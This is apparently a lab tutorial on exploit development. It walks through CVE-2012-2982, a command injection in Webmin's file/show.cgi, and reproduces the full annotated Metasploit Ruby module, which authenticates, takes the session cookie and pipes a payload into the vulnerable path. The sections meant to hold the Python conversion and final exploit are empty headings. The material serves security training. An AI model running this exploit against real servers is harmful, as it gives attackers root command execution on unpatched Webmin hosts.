


# Introduction to Proof of Concept Scripting

## What are PoC Scripts

This room is an introduction to a fundamental skill of most cybersecurity domains; exploit development by crafting exploit scripts from proof of concept code.  
***proof of concept (PoC):*** evidence, typically derived from an experiment or pilot project, which demonstrates that a design concept, business proposal, etc., is feasible.

The term exploit development is sometimes strictly referred to writing programs that leverage buffer overflow attacks or reverse engineer binary files, here it's being used more broadly as taking the contents of a CVE and PoC code to incite unintended behavior of the target system and gain privileged access.  

### Why learn to write PoC scripts and exploit development?

Being able to examine proof of concept code and craft custom payloads will not only improve exploit development skills, but also skills in the language used to develop them.  
Understanding the intimate and complex details of why something is vulnerable is an essential skill for all facets of information security.

For those studying for practical certifications, we're expected to adapt proof of concept code from various sources that does not do what we want immediately, but provides a path to a vulnerable spot in the target system and a method for exploiting.  
No matter the type of exploit it's expected that we're able to look at the source code (e.g ruby code of metasploit module or bug trackers), identify the exact exploitable endpoint, what parameters get sent, and write a small script that sends the appropriate parameters to that endpoint with a custom payload. Not every vulnerability that exists will have a pre-made exploit script to use but, if you learn and practice how to make them yourself, you'll acquire a deeper understanding of cybersecurity topics and accumulate more technical skills.

### Methodologies

***Optimize the script and condense unnecessary code:*** keep it simple stupid
***Read and reread PoC code before researching:*** assists in identifying errors in scripts and how to fix them, sometimes before they occur
***Research as detailed as possible:*** not all essential information is found on documentation and stackoverflow
***Prepare to adapt and customize:*** PoC code sometimes uses pre-made libraries with specific functions you'll need to personally craft
***Test segments of code along the way:*** this makes it easier to pinpoint potential issues

## The Starting Point

Webmin  
Username: user1  
password: 1user  
IP: 10.66.176.170  

  

Vulnerability information found through searchsploit or [Exploit-DB](https://www.exploit-db.com/exploits/21851)  

### CVE-2012-2012-2982 Description

file/show.cgi in Webmin 1.590 and earlier allows remote authenticated users to execute arbitrary commands via an invalid character in a pathname, as demonstrated by a | (pipe) character.  
input validation flow within the binary file of show.cgi, exploited using a | (pipe) character allows for remote autehtnicated attacker to execute any command as a privileged user.
Simply input valid characters and pipe them to a system command.  

Metasploit's [code](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/webapp/webmin_show_cgi_exec.rb) is the startpoint for writing the proof of concept code.


### Understanding the Vulnerability

CVE documentation provides resources that can better highlight and demonstrate the source of vulnerabilities.  
In open source software, developers keep public track of bugs their platforms and systems produce.  
For this particular exploit, the before and after of the bug that led to [CVE-2012-2982 is documented on github](https://github.com/webmin/webmin/commit/1f1411fe7404ec3ac03e803cfa7e01515e71a213), the vulnerability and how it was fixed.  

Here we can see a section of /file/show.cgi as it exists in Webmin versions 1.590 and earlier.  
The highlighted red text indicates the vulnerability while the green indicates the patch.  
The `<` operator was introduced to sanitize input of invalid characters, as demonstrated by view_epathinfo.  
As we know from the description, this input invalidation enables us to open any file we want.  

  

## Translating Metasploit Module Code  

The Exploit's Ruby Source Code has three main functions: Initialize, check, and exploit.  

The module does not specify the type of request, therefore using the default GET method. It sends a request with the authenticated cookie to the file that houses the vulnerability show.cgi and enters the invalid input, piping it with | to the malicious command, the system shell.  
As metasploit automatically establishes a socket connection between the target and attacker, we'll have include a line to open a socket on the victim in order to send the system shell back to us. 

### Initialize Function

Contains information that will require conversion.  
    ***payload type:*** cmd or the system shell
    ***placeholder*** for the username and password
    ***RPORT:*** the website is on the default HTTP port 80 instead of 10000

Other information such as memory allocation is done automatically when using python so we can ignore this. The website does not use TLS so we'll have to note this in the POST request.  

### Check Function

Verify the target is  vulnerable to CVE-2012-2982  
Expendable in a custom script  
most important information in this section is the format of the unique cookie and generating a random alphanumeric string  
The cookie is formatted by reading the output of the Set-Cookie header. 
The actual cookie is a random alphanumeric string but there is other information (the name and path) that is apart of the header, this line of code simply gets rid of the excess information and stores the alphanumeric value.  
From the developer tools, we see the name sid proceeds the actual value, so the method split is used to split the text at "sid=" and returns an array, storing the alphanumeric value and the remaining text.  
It's then repeated to split at ";" and return an array with no elements, leaving only the alphanumeric cookie value.

The `command` variable uses echo to print five random alphanumeric characters to be used as invalid input to pipe to the malicious command, generating a random alphanumeric string.

Information to convert into python:  

  the login page URI data (credentials and login page file)
  POST request sending the URI data
  format the cookie
  HTTP response code and the session id is not empty
  generate five random characters

### Exploit Function

Nearly identical to the `check` function exceptin that `exploit` sends the payoad.  
Initial POST  request, fomratting cookies, and second request to send paylad are identiciat to `check`.  
Similarities allow elimination of redundant code.

Information to convert

    store the system shell with a function, encode it and send it back via socket
    send a GET or POST request with compromised cookie for show.cgi with invalid input piping it to the malicious command 

### Module Code

    ```ruby
    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote
      Rank = ExcellentRanking

      include Msf::Exploit::Remote::HttpClient
  #########################
  ## Initialize Function ##
  #########################
      def initialize(info = {})
        # Description of the Exploit, authaorice and referenc sites 
        super(
          update_info(
            info,
            'Name' => 'Webmin /file/show.cgi Remote Command Execution',
            'Description' => %q{
              This module exploits an arbitrary command execution vulnerability in Webmin
              1.580. The vulnerability exists in the /file/show.cgi component and allows an
              authenticated user, with access to the File Manager Module, to execute arbitrary
              commands with root privileges. The module has been tested successfully with Webmin
              1.580 over Ubuntu 10.04.
            },
            'Author' => [
              'Unknown', # From American Information Security Group
              'juan vazquez' # Metasploit module
            ],
            'License' => MSF_LICENSE,
            'References' => [
              ['OSVDB', '85248'],
              ['BID', '55446'],
              ['CVE', '2012-2982'],
              ['URL', 'http://www.americaninfosec.com/research/dossiers/AISG-12-001.pdf'],
              ['URL', 'https://github.com/webmin/webmin/commit/1f1411fe7404ec3ac03e803cfa7e01515e71a213']
            ],
            'Privileged' => true,
            'Payload' => {
              'DisableNops' => true,
              # Maximum space in memory to store the payload
              'Space' => 512,
              'Compat' =>
                            {
                              # Ensures the payload the exploit uses is the 'cmd'
                              'PayloadType' => 'cmd',
                              'RequiredCmd' => 'generic perl ruby python telnet',
                            }
            },
            'Platform' => 'unix',
            'Arch' => ARCH_CMD,
            'Targets' => [[ 'Webmin 1.580', {}]],
            'DisclosureDate' => '2012-09-06',
            'DefaultTarget' => 0,
            'Notes' => {
              'Reliability' => UNKNOWN_RELIABILITY,
              'Stability' => UNKNOWN_STABILITY,
              'SideEffects' => UNKNOWN_SIDE_EFFECTS
            }
          )
        )

        register_options(
          [
            # Sets the target port
            Opt::RPORT(10000),
            # Whether  or not hte site uses HTTPS
            OptBool.new('SSL', [true, 'Use SSL', true]),
            # accepts the username
            OptString.new('USERNAME', [true, 'Webmin Username']),
            # accepts the password
            OptString.new('PASSWORD', [true, 'Webmin Password'])
          ]
        )
      end
  ####################
  ## Check Function ##
  ####################
      def check

        # reserves space for the target IP and port, sets target IP and port 
        peer = "#{rhost}:#{rport}"

        vprint_status("Attempting to login...")
        # Stores the URL that handles the login request, wbtains Webmin login page URI
        data = "page=%2F&user=#{datastore['USERNAME']}&pass=#{datastore['PASSWORD']}"
        # sends an HTTP POST request to login with the compromised credentials, Sends post request to the server
        res = send_request_cgi(
          {
            'method' => 'POST',
            'uri' => "/session_login.cgi",
            'cookie' => "testing=1",
            'data' => data
          }, 25
        )
        
        # If the HTTP response code is 302 and the cookie equals the value of the session ID (sid), then continue
        if res and res.code == 302 and res.get_cookies =~ /sid/
          vprint_good "Authentication successful"
          # format the cookie into a readable string based on the Set-Cookie header in the HTTP respose, ready to accept excess text
          session = res.get_cookies.split("sid=")[1].split(";")[0]
        else
          vprint_error "Service found, but authentication failed"
          return Exploit::CheckCode::Detected
        end

        vprint_status("Attempting to execute...")
        # generate a random string of five alphanumeric charactesr to use as invalid input
        command = "echo #{rand_text_alphanumeric(rand(5) + 5)}"

        # second request to verify vulnerability to the exploit
        res = send_request_cgi(
          {
            'uri' => "/file/show.cgi/bin/#{rand_text_alphanumeric(5)}|#{command}|",
            'cookie' => "sid=#{session}"
          }, 25
        )

        if res and res.code == 200 and res.message =~ /Document follows/
          return Exploit::CheckCode::Vulnerable
        else
          return Exploit::CheckCode::Safe
        end
      end

  ######################
  ## Exploit Function ##
  ######################
      def exploit
        peer = "#{rhost}:#{rport}"

        print_status("Attempting to login...")

        data = "page=%2F&user=#{datastore['USERNAME']}&pass=#{datastore['PASSWORD']}"

        res = send_request_cgi(
          {
            'method' => 'POST',
            'uri' => "/session_login.cgi",
            'cookie' => "testing=1",
            'data' => data
          }, 25
        )

        if res and res.code == 302 and res.get_cookies =~ /sid/
          session = res.get_cookies.scan(/sid\=(\w+)\;*/).flatten[0] || ''
          if session and not session.empty?
            print_good "Authentication successful"
          else
            print_error "Authentication failed"
            return
          end
          print_good "Authentication successful"
        else
          print_error "Authentication failed"
          return
        end

        print_status("Attempting to execute the payload...")
        # different from the check function. This performs URL encoding
        command = payload.encoded

        # second request does not specify the http method, defaults to GET
        # 
        res = send_request_cgi(
          {
            'uri' => "/file/show.cgi/bin/#{rand_text_alphanumeric(rand(5) + 5)}|#{command}|",
            'cookie' => "sid=#{session}"
          }, 25
        )

        if res and res.code == 200 and res.message =~ /Document follows/
          print_good "Payload executed successfully"
        else
          print_error "Error executing the payload"
          return
        end
      end
    end
    ```

### All information Needing Converted to python

The task is relatively simple: send a couple of POST requests  
Verifying the target is vulnerable is valuable, but not always necessary.  
If the goal is a simple and quick privilege escalation such as this example, maybe you don't need to verify  
You may sometimes find among proof of concept code that it contains unnecessary weight to what could be a simple, quick script.  

- payload type: cmd or system shell  
- the login page URI data (credentials, receiving port and login page file)  
- POST request sending the URI data  
- format the cookie  
- verify HTTP response code and the session id is not empty, print statement to verify success  
- generate five random characters  
- store the system shell with a function, encode it and send it back via socket  
- send a GET or POST request with compromised cookie for show.cgi with invalid input piping it to the malicious command  

## Converting Ruby to Python

## Final Exploit and Test

## Common Mistakes

## Addiitonal Resourcese

Resources for exploit development

    [Metasploit resources (module source code, msfevnom)](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)
    exploitdb (searchsploit), hackerone, 0day, packet storm, secfocus, vulndb, cvedetails, github, vulners
    Converting Metasploit Module to Stand Alone
    [Null-Byte Exploit Development - Everything You Need to Know](https://null-byte.wonderhowto.com/how-to/exploit-development-everything-you-need-know-0167801/)
    [Violent Python - A Cookbook for Hackers, Forensic Analysts, Penetration Testers and Security](https://github.com/tanc7/hacking-books/blob/master/Violent%20Python%20-%20A%20Cookbook%20for%20Hackers%2C%20Forensic%20Analysts%2C%20Penetration%20Testers%20and%20Security%20Engineers.pdf)
    [What is a proof of concept exploit?](https://www.techtarget.com/searchsecurity/definition/proof-of-concept-PoC-exploit)